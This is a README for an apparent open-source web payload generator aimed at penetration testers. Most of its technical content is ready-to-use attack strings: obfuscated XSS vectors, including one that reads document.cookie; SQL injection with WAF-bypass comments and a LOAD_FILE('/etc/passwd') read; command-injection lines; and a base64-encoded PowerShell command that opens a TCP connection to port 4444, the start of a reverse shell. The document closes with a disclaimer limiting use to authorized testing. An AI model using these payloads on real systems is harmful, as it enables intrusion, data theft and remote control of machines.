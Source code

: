 # Web Exploitation Payload Generator 🛡️

![Python Version](https://img.shields.io/badge/python-3.8+-blue.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)
[![Documentation](https://img.shields.io/badge/docs-Advanced-blueviolet)](https://github.com/yourusername/web-exploitation-payload-generator/wiki)

**Advanced Modular Payload Generation Framework for Web Application Security Testing**

> "The ultimate toolkit for security professionals to generate, test, and analyze evasion-ready payloads for critical web vulnerabilities"

## Table of Contents
- <a href="#key-features" style="color: #1e90ff;">Key Features</a>
- <a href="#installation" style="color: #1e90ff;">Installation</a>
- <a href="#usage-examples" style="color: #1e90ff;">Usage Examples</a>
- <a href="#payload-modules" style="color: #1e90ff;">Payload Modules</a>
- <a href="#api-integration" style="color: #1e90ff;">API Integration</a>
- <a href="#sample-outputs" style="color: #1e90ff;">Sample Outputs</a>
- <a href="#contributing" style="color: #1e90ff;">Contributing</a>
- <a href="#license" style="color: #1e90ff;">License</a>
- <a href="#legal-disclaimer" style="color: #1e90ff;">Legal Disclaimer</a>

<a id="key-features"></a>
## Key Features ✨

| Feature | Description | Advanced Capabilities |
|---------|-------------|----------------------|
| **XSS Payloads** | Reflected, Stored, DOM-based payloads | SVG/srcdoc/null-byte bypasses, JSFuck obfuscation |
| **SQL Injection** | Error-based, Union-based, Blind SQLi | WAF evasion with versioned comments, whitespace bypass |
| **Command Injection** | Linux/Windows payload variants | Encoding bypasses, argument splitting |
| **Payload Processing** | Base64/URL/Hex/Unicode encoding | 3-tier obfuscation engine with null bytes |
| **Tool Integration** | Burp Suite & OWASP ZAP API | Automated payload delivery to security tools |
| **Enterprise Output** | CLI, JSON, clipboard | Customizable templates, batch processing |

<a id="installation"></a>
## Installation 🚀

```bash
# Clone repository
git clone https://github.com/yourusername/web-exploitation-payload-generator.git
cd web-exploitation-payload-generator

# Install dependencies
pip install -r requirements.txt

# Launch tool
python main.py [CLI OPTIONS]  # Command-line interface
python main.py                # Graphical interface
<a id="usage-examples"></a>

Usage Examples 🧪
CLI Interface (Penetration Testing)
bash
# Generate SQLi payloads with WAF bypass in JSON format
python main.py --type sqli --technique union --bypass --output json > payloads.json

# Create obfuscated XSS payloads and send to Burp Suite
python main.py --type xss --obfuscate 3 --burp http://localhost:8080

# Generate Windows command injection payloads with Base64 encoding
python main.py --type cmdi --os windows --encode base64
GUI Interface (Security Training)
https://via.placeholder.com/800x500.png?text=Payload+Generator+GUI+Interface
Interactive payload generation with real-time preview

<a id="payload-modules"></a>

Payload Modules 🔍
1. XSS Payload Generator
html
<!-- Sample DOM-based XSS with evasion -->
<svg/onload=alert`${document.domain}`>
<img src=x oneerror=alert(1)>
<script>/*!*/al\u0065rt(1)/*!*/</script>
2. SQL Injection Engine
sql
-- WAF Bypass Examples
1'/*!50000UNION*//*!50000SELECT*/@@version,2,3-- -
id=1' AND 1=(SELECT LOAD_FILE('/etc/passwd')) -- 
' OR 1=1 /*!0aNd*/ '1'='1
3. Command Injection
bash
# Linux payloads
;cat /etc/passwd
`echo d2hvYW1p | base64 -d`  # whoami

# Windows bypasses
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxADAAIgAsADQANAA0ADQAKQA=
<a id="api-integration"></a>

API Integration ⚙️
python
# Send payloads directly to Burp Suite
from api_integration import BurpSuiteAPI

burp = BurpSuiteAPI("http://localhost:8080")
for payload in generated_payloads:
    burp.send_to_repeater(payload)
<a id="sample-outputs"></a>

Sample Outputs 📤
JSON Export:

json
{
  "module": "XSS",
  "technique": "DOM-based",
  "payloads": [
    "<svg onload=alert(document.domain)>",
    "<img src=x:g onerror=\"eval(atob('YWxlcnQoJ1hTUycp'))\">",
    "javascript:alert`${btoa(document.cookie)}`"
  ]
}
Command-Line Output:

text
[1] ' UNION SELECT @@version,user() -- 
[2] id=1'/*!50000UNION*//*!50000SELECT*/1,table_name,3 FROM information_schema.tables-- -
[3] ' AND (SELECT 1 FROM (SELECT SLEEP(5))a) --
<a id="contributing"></a>

Contributing 🤝
We welcome security researchers and developers to contribute:

Report issues and suggest features

Submit pull requests with new payload modules

Improve evasion techniques

Add support for additional security tools

See our Contribution Guidelines for details.

<a id="license"></a>

License 📜
This project is licensed under the MIT License - see the LICENSE file for details.

<a id="legal-disclaimer"></a>

Legal Disclaimer ⚠️
Important: This tool is intended solely for:

Educational purposes

Security research

Authorized penetration testing

Improving defensive strategies

Never use this tool on systems without explicit written permission. The developers assume no liability and are not responsible for any misuse or damage caused by this software.
